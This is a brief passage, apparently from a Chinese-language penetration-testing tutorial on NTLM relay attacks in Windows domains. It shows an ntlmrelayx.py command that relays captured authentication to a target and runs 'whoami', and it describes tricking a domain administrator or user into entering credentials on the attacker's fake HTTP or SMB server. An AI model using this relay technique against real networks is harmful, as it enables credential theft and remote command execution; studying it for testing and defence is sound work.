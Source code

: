 ```
ntlmrelayx.py -t <Client ip> -c whoami -smb2support
```

![](img/25.png)

诱导域管理员或普通域用户访问攻击机搭建的伪造 HTTP 或 SMB 服务，并输入用户名密码：

![](img/24.png)

攻击者的 ntlmrelayx 上面即可显示成功在目标上执行命令
